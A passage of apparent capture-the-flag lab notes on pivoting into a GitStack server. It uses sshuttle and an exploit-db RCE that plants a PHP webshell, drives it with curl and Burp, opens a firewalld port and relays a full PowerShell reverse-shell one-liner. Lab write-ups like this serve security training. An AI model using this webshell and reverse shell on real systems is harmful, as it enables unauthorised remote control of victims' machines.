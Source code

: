 
See [[enumeration 03]]

---

We can use sshuttle to create a tunnel to our next target @ **10.200.84.150:80**

`sshuttle -r root@10.200.84.200 --ssh-cmd "ssh -i id_rsa" 10.200.84.0/24`

We can now access http://10.200.84.150

This page reveals that it is running **gitstack**

___

We search in exploit db for gitstack and find the following RCE:

https://www.exploit-db.com/exploits/43777

We can copy this exploit to our machine
`searchsploit -m 43777`

**A common issue with exploit db scripts are the line endings. They need to be converted to unix line endings**

`dos2unix ./43777.py`

---

You can edit the **command** field in the script to send a reverse shell. But if we look closer at the last 6 lines of code...

We see it creates a PHP webshell 
```php
<?php system($_POST['a']); ?>
```

and echos it into a file called **exploit.php** under the webroot.
This can be access by posting a command to the newly created /web/exploit.php file

We can exploit this via cURL:

`curl -X POST http://IP/web/exploit-USERNAME.php -d "a=COMMAND"`

Or through burpsuite by using repeater. Here is an example:

```post
POST /web/exploit-k.php HTTP/1.1
Host: gitserver.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: csrftoken=8fIXpM3hjzaS9K5qdiztvTjrY2CW2DFA; sessionid=7c7f16ab0abe63010d960ed76f54b6e8
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

a=whoami
```

Let's try to ping to our machine to see if we can send outbound traffic

Set up  tcpdump on our box
`tcpdump -i tun0 icmp`
Try to ping it from the box
`ping -n 3 ATTACKING_IP`

Nothing gets sent. Now we have two options.

-   Given we have a fully stable shell on .200, we could upload a static copy of [netcat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat) and just catch the shell here
-   We could set up a relay on .200 to forward a shell back to a listener

---

Before we can do this, however, we need to take one other thing into account. CentOS uses an always-on wrapper around the IPTables firewall called "firewalld". By default, this firewall is extremely restrictive, only allowing access to SSH and anything else the sysadmin has specified. Before we can start capturing (or relaying) shells, we will need to open our desired port in the firewall. This can be done with the following command:  
`firewall-cmd --zone=public --add-port PORT/tcp`  
Substituting in your desired choice of port.

In this command we are using two switches. First we set the zone to public -- meaning that the rule will apply to every inbound connection to this port. We then specify which port we want to open, along with the protocol we want to use (TCP).

---

Now we set up our reverse shell relay

[[Reverse Shell Relay]]

We then send this to the a= command in burpsuite. Replacing IP with 10.200.84.200 and PORT with the port we opened on .200

```powershell
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


Proceed to [[Foothold 02]]
